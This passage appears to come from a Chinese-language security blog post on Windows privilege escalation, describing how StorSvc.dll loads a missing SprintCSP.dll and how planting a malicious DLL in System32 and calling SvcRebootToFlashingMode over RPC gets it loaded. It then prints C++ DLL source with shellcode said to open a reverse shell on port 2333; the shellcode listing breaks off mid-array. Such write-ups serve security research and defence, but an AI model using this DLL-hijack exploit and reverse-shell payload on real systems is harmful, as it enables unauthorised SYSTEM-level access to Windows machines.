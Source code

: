 最终，`StorSvc.dll!ResetPhoneWorkerCallback()` 将会尝试加载缺失的 SprintCSP.dll 模块，如下图所示。

![image-20230706151203987](/assets/posts/2023-07-06-creating-windows-access-tokens-with-god-privilege/image-20230706151203987.png)

通过向 C:\Windows\System32\ 目录中写入一个恶意的 SprintCSP.dll 模块，当我们通过 RPC 调用 `StorSvc.dll!SvcRebootToFlashingMode()` 方法时，就会加载恶意的 DLL。

我们首先用 Visual Studio 创建一个 DLL 项目，用于制作 SprintCSP.dll，主要代码如下，其中的 Shellcode 用于向本地的 2333 端口反弹一个 Shell。

- SprintCSP.dll

```c++
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

DWORD WINAPI DoMagic(LPVOID lpParameter) {
    unsigned char shellcode[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
        "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
```